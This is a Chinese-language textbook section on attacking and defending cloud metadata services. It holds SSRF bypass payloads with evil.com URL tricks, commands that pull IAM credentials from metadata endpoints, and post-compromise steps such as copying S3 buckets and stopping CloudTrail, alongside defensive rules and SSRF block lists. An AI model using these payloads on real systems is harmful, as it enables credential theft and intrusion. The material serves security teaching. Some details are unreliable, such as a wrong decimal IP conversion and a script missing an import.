



## 12.2.4 云元数据服务利用与防护

云实例元数据服务（Instance Metadata Service, IMDS）是云平台为运行中的虚拟机实例提供的一组 HTTP 端点，允许实例无需额外身份验证即可查询自身的配置信息、网络设置和临时安全凭证。这个设计初衷是简化实例初始化和应用程序配置，但它同时也是云安全攻防中最关键的攻击面之一——一旦攻击者能从实例内部向元数据端点发送请求，就可能获取 IAM 临时凭证、SSH 密钥、用户数据脚本等高价值信息，进而实现权限提升和横向移动。

### 元数据服务的设计原理与架构

#### 为什么云平台需要元数据服务

云实例在启动时需要知道"我是谁"——实例 ID、所属 VPC 子网、安全组规则、关联的 IAM 角色等。这些信息无法硬编码到 AMI/镜像中，因为同一个镜像可能被部署到数百个不同配置的实例上。元数据服务通过一个链路本地地址（169.254.169.254）提供这些动态信息，实例内的任何进程都可以通过 HTTP GET 请求获取。

这个设计的核心优势在于：

- **零配置认证**：实例内进程无需存储任何密钥即可查询自身信息
- **动态更新**：信息反映实时状态（如实例伸缩组变更、安全组更新）
- **标准化访问**：所有编程语言都能通过 HTTP 客户端访问

#### 元数据服务的网络架构

元数据服务的请求不经过物理网络，而是由虚拟化层的 Hypervisor 或专用元数据代理直接拦截并响应。这意味着：



- 请求在 Hypervisor 层被拦截，**不会离开宿主机**
- 外部网络无法直接访问 169.254.169.254
- 同一 VPC 的其他实例也无法直接访问彼此的元数据服务
- 但实例**内部**的任何进程都可以发送请求——这是攻击面所在

### 三大云平台元数据服务详解

#### AWS EC2 实例元数据服务

AWS 提供了两个版本的元数据服务（IMDSv1 和 IMDSv2），这是目前业界对元数据安全讨论最多的实现。

**IMDSv1（传统版本）**：

```bash
# 查询元数据根路径，列出所有可用信息类别
curl http://169.254.169.254/latest/meta-data/

# 获取实例 ID
curl http://169.254.169.254/latest/meta-data/instance-id

# 获取实例类型
curl http://169.254.169.254/latest/meta-data/instance-type

# 获取安全凭证——IAM 角色名称
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 获取临时凭证（AccessKeyId, SecretAccessKey, Token）
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>

# 获取用户数据（启动脚本，常含敏感配置）
curl http://169.254.169.254/latest/user-data

# 获取动态数据（包括实例身份文档，可用于验证实例归属）
curl http://169.254.169.254/latest/dynamic/instance-identity/document
```

IMDSv1 的关键安全缺陷：**任何能从实例内部发起 HTTP 请求的攻击都可以获取全部元数据**，包括 SSRF、Server-Side Includes（SSI）注入、HTML/JavaScript 回调（如 ``）等。

**IMDSv2（增强版本）**：

```bash
# 第一步：通过 PUT 请求获取会话令牌（必须指定 TTL）
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

# 第二步：使用令牌访问元数据（令牌通过请求头传递，不经过 URL）
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

IMDSv2 的安全改进：

| 维度 | IMDSv1 | IMDSv2 |
|------|--------|--------|
| 请求方式 | 任意 HTTP GET | 必须先 PUT 获取令牌 |
| 凭证传递 | 无需认证 | 令牌通过请求头传递 |
| SSRF 防护 | 无 | PUT 请求无法通过多数 SSRF 路径 |
| 令牌防护 | 无 | 限制响应头不超过 2KB，阻止令牌外泄 |
| Hop 限制 | 无 | 默认限制 HTTP 跳数为 1（需显式修改才能跨跳） |

#### Azure 实例元数据服务

Azure 的 IMDS 端点同样是 169.254.169.254，但路径和认证方式有所不同：

```bash
# 基本实例信息
curl -H "Metadata:true" \
  "http://169.254.169.254/metadata/instance?api-version=2023-07-01"

# 获取网络接口信息
curl -H "Metadata:true" \
  "http://169.254.169.254/metadata/instance/network?api-version=2023-07-01"

# 获取 Azure AD（Entra ID）访问令牌
curl -H "Metadata:true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# 获取自定义数据（等同于 AWS user-data）
curl -H "Metadata:true" \
  "http://169.254.169.254/metadata/instance/compute/userData?api-version=2023-07-01&format=text"
```

Azure IMDS 的安全特性：

- **必须包含 `Metadata:true` 请求头**：普通浏览器请求不会自动携带此头，提供了一层基础防护
- **资源限制**：每秒最多 5 个请求，防止暴力枚举
- **支持托管标识（Managed Identity）**：通过 Azure AD 颁发 OAuth 2.0 令牌，而非直接暴露密钥
- **SSRF 防护较弱**：攻击者只需在 SSRF 请求中添加 `Metadata:true` 头即可，多数 SSRF 利用工具支持自定义头

#### GCP 实例元数据服务

GCP 的实现路径不同，使用 `metadata.google.internal` 域名：

```bash
# 基本实例信息
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/

# 获取默认服务账号令牌
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token

# 获取自定义元数据
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/project/attributes/

# 递归列出所有元数据（注意：递归查询可能返回大量数据）
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/?recursive=true"
```

GCP IMDS 的安全特性：

- **`Metadata-Flavor: Google` 头是必需的**：不带此头的请求会被拒绝
- **项目级 vs 实例级元数据**：项目级元数据在所有实例间共享，攻击面更大
- **服务账号令牌可指定范围**：通过 `?scopes=` 参数限制令牌权限
- **支持 Shielded VM 和 Confidential VM**：更高安全等级的实例有额外的元数据访问控制

### 攻击技术深度剖析

#### SSRF 攻击元数据服务

SSRF（Server-Side Request Forgery）是最常见的元数据服务利用路径。当应用存在 SSRF 漏洞时，攻击者可以让服务器端向 169.254.169.254 发送请求。

**典型的 SSRF 利用场景**：

1. **URL 预览/抓取功能**：应用提供 URL 预览功能，未对目标地址做校验
2. **PDF 生成器**：使用 wkhtmltopdf、Puppeteer 等工具渲染 HTML 为 PDF，支持加载外部资源
3. **Webhook 回调**：配置 webhook 目标为内部地址
4. **图片处理/代理**：图片 URL 代理下载功能
5. **XML 外部实体（XXE）**：通过 XXE 触发 HTTP 请求

**绕过常见防护的技巧**：

```bash
# 1. 十进制 IP 地址（绕过字符串匹配过滤）
curl http://2130706433/        # = 127.0.0.1
curl http://28520391661/       # = 169.254.169.254

# 2. 十六进制 IP 地址
curl http://0xa9fea9fe/       # = 169.254.169.254
curl http://0xA9FEA9FE/       # 同上，大小写不敏感

# 3. 八进制 IP 地址
curl http://0251.0376.0251.0376/  # = 169.254.169.254

# 4. IPv6 映射地址
curl http://[::ffff:a9fe:a9fe]/

# 5. DNS 重绑定（DNS Rebinding）
# 攻击者控制的 DNS 服务器在第一次查询时返回合法 IP，
# 第二次查询时返回 169.254.169.254
# 绕过基于 DNS 解析的白名单校验

# 6. 利用 URL 解析差异
curl http://evil.com@169.254.169.254/
curl http://169.254.169.254#@evil.com/
curl http://169.254.169.254%2523@evil.com/

# 7. CRLF 注入（部分 HTTP 客户端）
# Host: 169.254.169.254\r\nX-aws-ec2-metadata-token: xxx
```

**针对 IMDSv2 的绕过尝试**：

IMDSv2 要求 PUT 请求获取令牌，但以下场景仍可能被绕过：

- **应用支持 PUT 请求的 SSRF**：如果应用的 SSRF 点允许 PUT 方法（如某些 REST 客户端库），攻击者可能先获取令牌再用 GET 读取元数据
- **SSRF + CRLF 注入**：通过 CRLF 注入在同一个 TCP 连接上先发送 PUT 再发送 GET
- **服务端渲染（SSR）框架**：Next.js、Nuxt.js 等 SSR 框架可能支持多种 HTTP 方法
- **TOCTOU 竞态**：某些代理缓存可能在令牌校验和请求转发之间存在竞态条件

#### 容器环境中的元数据攻击

容器（Docker/Kubernetes）运行在云实例上时，面临额外的元数据安全风险：

**Docker 容器的网络隔离问题**：

```bash
# 默认 bridge 网络模式下，容器可以直接访问宿主机的元数据服务
docker run --rm alpine curl -s http://169.254.169.254/latest/meta-data/

# 使用 --network=host 的容器完全共享宿主机网络栈
docker run --network=host --rm alpine curl -s http://169.254.169.254/latest/meta-data/
```

**Kubernetes Pod 的风险**：

Kubernetes Pod 默认可以通过节点 IP 访问元数据服务。攻击路径包括：

1. **Pod 内应用存在漏洞** → SSRF 访问 169.254.169.254 → 获取节点实例的 IAM 凭证
2. **逃逸到节点** → 直接访问元数据服务 → 获取集群级别权限
3. **服务账号令牌泄露** → 结合元数据凭证扩大攻击面

```bash
# Pod 内访问元数据（通过节点 IP 或 169.254.169.254）
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# AWS EKS 的 IRSA（IAM Roles for Service Accounts）模式
# 通过投射卷提供令牌，不走 IMDS
cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token

# IRSA 通过 OIDC 提供 STS AssumeRoleWithWebIdentity
# 这种模式下即使 IMDS 被禁用，Pod 仍可获取 AWS 凭证
```

**Kubernetes 元数据代理防护**：

AWS EKS 提供了元数据代理（v2），默认阻止 Pod 直接访问 IMDS：

```yaml
# DaemonSet: eks-pod-identity-agent
# 在每个节点上运行，拦截 Pod 对 169.254.169.254 的请求
# 通过 Kubernetes 服务账号映射到 IAM 角色

# 手动限制 Pod 访问 IMDS（通过 iptables 或 NetworkPolicy）
# 使用 Calico 策略阻止对 169.254.169.254 的访问
apiVersion: projectcalico.org/v3
kind: GlobalNetworkPolicy
metadata:
  name: deny-imds-access
spec:
  selector: all()
  types:
    - Egress
  egress:
    - action: Deny
      destination:
        nets:
          - 169.254.169.254/32
```

#### Serverless 环境中的元数据利用

AWS Lambda、Azure Functions 等 Serverless 函数同样运行在云环境中，可以访问元数据服务：

```python
# AWS Lambda 中获取运行时凭证
import urllib.request
import json

def lambda_handler(event, context):
    # Lambda 通过环境变量提供凭证（更安全的方式）
    # 但仍可通过 IMDS 获取
    req = urllib.request.Request(
        'http://169.254.169.254/latest/meta-data/iam/security-credentials/'
    )
    role = urllib.request.urlopen(req).read().decode()
    
    req2 = urllib.request.Request(
        f'http://169.254.169.254/latest/meta-data/iam/security-credentials/{role}'
    )
    creds = json.loads(urllib.request.urlopen(req2).read().decode())
    return creds
```

Lambda 环境的特殊风险：

- Lambda 执行角色通常拥有比 EC2 更精细的权限，但仍可能过度授权
- Lambda 函数的代码包中可能硬编码了额外的 API 密钥
- Lambda 冷启动时的初始化代码可能泄露环境变量
- 环境变量中的敏感信息可通过 `AWS_LAMBDA_EXEC_WRAPPER` 等机制泄露

#### 高级攻击：凭证窃取与权限提升

从元数据服务获取临时凭证后，攻击者的后续操作取决于凭证关联的 IAM 角色权限：

```bash
# 使用获取的临时凭证配置 AWS CLI
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...

# 枚举当前角色权限
aws sts get-caller-identity
aws iam list-attached-role-policies --role-name <role-name>
aws iam list-role-policies --role-name <role-name>

# 常见的权限提升路径：

# 1. S3 数据泄露
aws s3 ls
aws s3 cp s3://sensitive-bucket/ ./ --recursive

# 2. Lambda 函数代码窃取
aws lambda list-functions
aws lambda get-function --function-name <name>

# 3. EC2 实例操作（如果角色允许）
aws ec2 describe-instances
aws ec2 create-key-pair --key-name attacker-key
aws ec2 run-instances --image-id ami-xxx --instance-type t2.micro \
  --iam-instance-profile Name=<privileged-role>

# 4. CloudTrail 日志篡改（如果角色允许）
aws cloudtrail stop-logging --name <trail-name>

# 5. AssumeRole 链式提升
aws sts assume-role --role-arn arn:aws:iam::ACCOUNT:role/admin \
  --role-session-name attacker-session
```

### 真实世界安全事件

#### Capital One 数据泄露事件（2019）

这是最知名的利用元数据服务的攻击事件：

- **攻击入口**：Capital One 的 AWS WAF 配置错误，允许 SSRF 请求
- **利用方式**：攻击者通过 SSRF 访问 EC2 元数据服务，获取 IAM 角色凭证
- **凭证权限**：该角色拥有读取 S3 存储桶的权限，存储桶包含 1.06 亿客户数据
- **影响规模**：1 亿美国用户和 600 万加拿大用户的个人信息
- **损失**：Capital One 支付了 8000 万美元罚款，加上后续的 1.9 亿美元和解金

**攻击链还原**：



**关键教训**：
- 该实例使用的是 IMDSv1，如果强制 IMDSv2 则攻击无法成功
- IAM 角色权限远超实际需要（过度授权）
- 缺少对 S3 Bucket 的访问日志告警

#### SSRF 链式攻击的演化

近年来攻击者发展出了更复杂的元数据利用链：

- **IMDS 代理攻击**：在受感染的实例上部署 HTTP 代理，持续转发元数据请求到外部 C2 服务器
- **持久化攻击**：利用获取的凭证创建新的 IAM 用户或访问密钥，在临时凭证过期后仍保持访问
- **供应链攻击**：通过污染容器镜像或 Lambda 层（Layer），在部署阶段就植入元数据窃取代码

### 防御体系：纵深防护策略

#### 第一层：网络层防护

```bash
# 1. iptables 规则阻止非授权进程访问元数据服务
# 只允许特定用户（如 root）或特定进程访问
iptables -A OUTPUT -d 169.254.169.254 -m owner ! --uid-owner root -j DROP

# 2. 使用 iptables 标记和链实现精细控制
iptables -A OUTPUT -d 169.254.169.254 -p tcp --dport 80 \
  -m cgroup --path system.slice/app.service -j ACCEPT
iptables -A OUTPUT -d 169.254.169.254 -p tcp --dport 80 -j DROP

# 3. AWS 安全组无法阻止 169.254.169.254（链路本地不经过安全组）
# 需要使用 iptables 或 NACL

# 4. 在容器层面，使用 Calico/NetworkPolicy 阻止 Pod 访问元数据
```

#### 第二层：实例层防护

```bash
# AWS: 强制使用 IMDSv2（实例级别）
aws ec2 modify-instance-metadata-options \
  --instance-id i-0123456789abcdef0 \
  --http-token required \
  --http-endpoint enabled \
  --http-put-response-hop-limit 1

# AWS: 账号级别强制 IMDSv2（通过 SCP）
# 组织级别 SCP 策略
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "RequireIMDSv2",
            "Effect": "Deny",
            "Action": "ec2:RunInstances",
            "Resource": "arn:aws:ec2:*:*:instance/*",
            "Condition": {
                "StringNotEquals": {
                    "ec2:MetadataHttpTokens": "required"
                }
            }
        }
    ]
}

# AWS: 禁用 IMDS（适用于不需要元数据的实例）
aws ec2 modify-instance-metadata-options \
  --instance-id i-0123456789abcdef0 \
  --http-token required \
  --http-endpoint disabled

# Azure: 禁用 IMDS（通过自定义脚本）
# Azure 不支持直接禁用 IMDS，但可通过 iptables 阻止访问

# GCP: 禁用特定元数据路径
gcloud compute instances set-scopes <instance-name> \
  --zone=<zone> \
  --scopes=
```

#### 第三层：应用层防护

**SSRF 防护代码（Python 示例）**：

```python
import ipaddress
import socket
from urllib.parse import urlparse

BLOCKED_NETWORKS = [
    ipaddress.ip_network('169.254.0.0/16'),    # 链路本地（元数据服务）
    ipaddress.ip_network('10.0.0.0/8'),         # 私有地址
    ipaddress.ip_network('172.16.0.0/12'),      # 私有地址
    ipaddress.ip_network('192.168.0.0/16'),     # 私有地址
    ipaddress.ip_network('127.0.0.0/8'),        # 回环地址
    ipaddress.ip_network('0.0.0.0/8'),          # 当前网络
]

def validate_url(url: str) -> bool:
    """验证 URL 是否安全，防止 SSRF 攻击"""
    parsed = urlparse(url)
    
    # 只允许 HTTP/HTTPS 协议
    if parsed.scheme not in ('http', 'https'):
        return False
    
    hostname = parsed.hostname
    if not hostname:
        return False
    
    # DNS 解析——防御 DNS 重绑定的关键步骤
    # 注意：必须先解析再校验，不能先校验域名再解析为 IP
    try:
        resolved_ips = socket.getaddrinfo(hostname, None, socket.AF_INET)
    except socket.gaierror:
        return False
    
    for _, _, _, _, sockaddr in resolved_ips:
        ip = ipaddress.ip_address(sockaddr[0])
        for blocked in BLOCKED_NETWORKS:
            if ip in blocked:
                return False
    
    # 额外检查：拒绝非标准端口
    if parsed.port and parsed.port not in (80, 443):
        return False
    
    return True
```

**使用 URL 解析库强化防护**：

```python
# 使用专用库进行 URL 校验，避免自写正则的绕过风险
# pip install ssrf-protect
from ssrf_protect import SsrfProtect

def safe_fetch(url: str) -> str:
    """带 SSRF 防护的安全请求"""
    # ssrf-protect 会解析所有 IP 表示形式（十进制、十六进制、八进制）
    # 并检查 DNS 重绑定
    safe_url = SsrfProtect.check(url)
    response = requests.get(safe_url, timeout=5)
    return response.text
```

#### 第四层：IAM 最小权限

```json
// 推荐：为元数据访问创建专用的权限边界
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowSpecificActions",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject"
            ],
            "Resource": [
                "arn:aws:s3:::my-app-bucket/public/*"
            ],
            "Condition": {
                "StringEquals": {
                    "aws:RequestedRegion": "us-east-1"
                }
            }
        }
    ]
}

// 避免：通配符资源和动作
{
    "Action": "*",
    "Resource": "*"
}
```

**权限审计实践**：

```bash
# 使用 IAM Access Analyzer 找出角色实际使用的权限
aws iam generate-service-last-accessed-details \
  --arn arn:aws:iam::ACCOUNT:role/webapp-role

aws iam get-service-last-accessed-details \
  --job-id <job-id>

# 使用 CloudTracker 对比角色的授予权限 vs 实际使用权限
# pip install cloudtracker
cloudtracker --account prod --role webapp-role
```

#### 第五层：监控与检测

```bash
# CloudTrail 检测可疑的临时凭证使用
# 关注这些异常行为：

# 1. 来自非预期 IP 的 API 调用
# 2. 短时间内大量 S3 列举操作
# 3. 跨区域 API 调用
# 4. 异常时间段的 API 活动
# 5. 对 IAM/STS 的异常操作（如创建访问密钥）

# CloudWatch 告警规则示例
aws cloudwatch put-metric-alarm \
  --alarm-name "SuspiciousS3Activity" \
  --metric-name "S3BucketListingCount" \
  --namespace "CloudTrail/S3" \
  --statistic Sum \
  --period 300 \
  --threshold 50 \
  --comparison-operator GreaterThanThreshold \
  --evaluation-periods 1

# GuardDuty 自动检测元数据凭证的异常使用
# GuardDuty 会标记以下行为：
# - 从非常用 IP 使用临时凭证
# - 凭证在角色关联实例外的使用
# - 异常的 API 调用模式
```

**实时监控脚本**：

```python
import boto3
from datetime import datetime, timedelta

def detect_imds_credential_misuse():
    """检测 IMDS 凭证的异常使用模式"""
    cloudtrail = boto3.client('cloudtrail')
    
    # 查询最近 1 小时内使用 AssumeRole 的事件
    response = cloudtrail.lookup_events(
        LookupAttributes=[
            {
                'AttributeKey': 'EventName',
                'AttributeValue': 'AssumeRole'
            }
        ],
        StartTime=datetime.utcnow() - timedelta(hours=1),
        EndTime=datetime.utcnow()
    )
    
    for event in response['Events']:
        event_data = json.loads(event['CloudTrailEvent'])
        source_ip = event_data.get('sourceIPAddress', '')
        
        # 标记来自非 AWS 服务 IP 的 AssumeRole 调用
        if not source_ip.endswith('.amazonaws.com'):
            print(f"[ALERT] 非预期来源的 AssumeRole: {source_ip}")
            print(f"  角色: {event_data.get('requestParameters', {}).get('roleArn')}")
            print(f"  时间: {event_data.get('eventTime')}")
```

### 进阶主题

#### 元数据服务的版本演进与未来趋势



#### 各云平台元数据安全对比

| 安全特性 | AWS | Azure | GCP |
|---------|-----|-------|-----|
| 强制认证头 | IMDSv2 要求 PUT 令牌 | `Metadata:true` 头 | `Metadata-Flavor: Google` 头 |
| SSRF 防护强度 | 强（PUT 方法限制） | 弱（攻击者可自定义头） | 中等（需特定头） |
| 禁用选项 | 支持完全禁用 | 不支持完全禁用 | 支持限制特定路径 |
| 容器防护 | EKS Pod Identity Agent | AKS 托管标识 | GKE Workload Identity |
| 凭证类型 | STS 临时凭证 | OAuth 2.0 令牌 | OAuth 2.0 令牌 |
| 凭证有效期 | 6-12 小时 | 24 小时（可配置） | 1 小时（自动刷新） |
| 审计支持 | CloudTrail + GuardDuty | Activity Log + Defender | Audit Logs + SCC |

#### 安全测试工具

```bash
# 1. cloud-iam-exploit：AWS IAM 权限分析工具
# 分析从 IMDS 获取的凭证的实际权限范围
pip install cloud-iam-exploit

# 2. pacu：AWS 渗透测试框架
# 可以自动利用 IMDS 获取的凭证进行枚举和提权
pip install pacu
pacu> run iam__enum_permissions
pacu> run iam__privesc_scan

# 3. ScoutSuite：多云安全审计工具
# 审计 IAM 配置、网络策略等
pip install scoutsuite

# 4. imds-tracer：跟踪实例内的 IMDS 请求
# 帮助识别哪些进程在访问元数据服务
```

### 常见误区与纠正

| 误区 | 事实 |
|------|------|
| IMDSv2 能完全阻止 SSRF | IMDSv2 大幅提高攻击门槛，但支持 PUT 方法的 SSRF 点仍可能被利用 |
| 网络 ACL 可以阻止 169.254.169.254 | 链路本地地址不经过 VPC 路由，NACL/安全组无效，需要 iptables |
| 容器默认无法访问 IMDS | 默认 bridge 网络下容器可以直接访问宿主机的 IMDS |
| 禁用 IMDS 是最佳方案 | 禁用 IMDS 会影响实例初始化、Auto Scaling、EKS IRSA 等功能 |
| IMDS 凭证过期就安全了 | 攻击者可能在有效期内创建持久化访问密钥 |
| Azure/GCP 的 IMDS 比 AWS 安全 | Azure 和 GCP 的防护主要是请求头要求，比 IMDSv2 的 PUT 令牌弱得多 |

### 防御检查清单

在对云环境进行安全评估时，按以下清单逐项检查元数据服务的安全配置：

- [ ] 所有 EC2 实例已强制使用 IMDSv2（`HttpTokens=required`）
- [ ] 已通过 SCP 策略在组织级别强制 IMDSv2
- [ ] IAM 角色遵循最小权限原则，无 `*:*` 通配符权限
- [ ] 容器集群已部署元数据代理（如 EKS Pod Identity Agent）
- [ ] 应用层已实现 SSRF 防护（IP 校验 + DNS 重绑定防御）
- [ ] 已启用 CloudTrail/Activity Log 审计 IAM 凭证使用
- [ ] 已配置 GuardDuty/Defender/SCC 异常检测
- [ ] 定期使用 IAM Access Analyzer 审计角色权限
- [ ] Lambda 函数通过环境变量而非 IMDS 获取凭证
- [ ] 所有 user-data 脚本不包含明文密码或 API 密钥

***

> **本节核心要点**：云元数据服务是攻防双方都必须深入理解的关键组件。攻击者利用 SSRF 等漏洞访问元数据服务获取临时凭证，实现权限提升和横向移动。防御者需要在网络层（iptables）、实例层（IMDSv2）、应用层（SSRF 防护）、IAM 层（最小权限）和监控层（异常检测）构建纵深防护体系。Capital One 事件证明了单一防护措施的不足——只有多层防御才能有效应对元数据服务相关的安全威胁。
